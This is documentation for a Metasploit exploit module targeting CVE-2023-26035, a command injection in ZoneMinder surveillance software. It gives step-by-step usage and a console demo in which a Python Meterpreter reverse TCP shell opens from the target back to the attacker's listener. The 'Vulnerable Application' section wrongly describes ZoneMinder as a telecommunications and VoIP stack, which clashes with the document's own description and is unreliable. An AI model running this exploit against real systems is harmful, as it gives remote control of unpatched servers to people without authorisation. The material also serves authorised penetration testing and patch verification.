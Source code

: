 ## Description

This module exploits a command injection that leads to a remote execution in ZoneMinder surveillance software versions before 1.36.33 and before 1.37.33

More about the vulnerability detail: [2023-26035](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2023-26035).

The module will automatically use `cmd/unix/python/meterpreter/reverse_tcp` payload.

The module will check if the target is vulnerable, by sending a sleep command.


## Vulnerable Application

[Zoneminder](https://zoneminder.com/) is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

This module has been tested successfully on Zoneminder versions:

* 1.36.31~64bit on Debian 11

### Source and Installers

* [Source Code Repository](https://github.com/ZoneMinder/zoneminder/tree/1.36.31)
* [Installers](https://zoneminder.readthedocs.io/en/stable/installationguide/index.html)

**The 3rd party debian-repository has packages for the vulnerable versions(for example zoneminder=1.36.31-bullseye1)**


## Verification Steps
Example steps in this format (is also in the PR):

1. Do: `use exploit/unix/webapp/zoneminder_snapshots`
2. Do: `set RHOSTS [ips]`
3. Do: `set LHOST [lhost]`
4. Do: `run`
5. You should get a shell.

## Options

### TARGETURI

Remote web path to the zoneminder installation (default: /zm/)

## Scenarios

In this scenario the zoneminder-server has the IP address 192.42.0.254. The IP address of the metasploit host is
192.42.1.188.

### Zoneminder 1.36.31-bullseye1

The following demo shows how to use the exploit with minimal settings:

```
msf6 exploit(unix/webapp/zoneminder_snapshots) > set RHOSTS 192.42.0.254
RHOSTS => 192.42.0.254
msf6 exploit(unix/webapp/zoneminder_snapshots) > set LHOST 192.42.1.188
LHOST => 192.42.1.188
msf6 exploit(unix/webapp/zoneminder_snapshots) > run

[*] Started reverse TCP handler on 192.42.1.188:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Fetching CSRF Token
[+] Got Token
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending payload
[*] Sending stage (24772 bytes) to 192.42.0.254
[*] Meterpreter session 1 opened (192.42.1.188:4444 -> 192.42.0.254:44934) at 2023-10-06 16:55:49 +0000
[+] Payload sent

meterpreter >
```

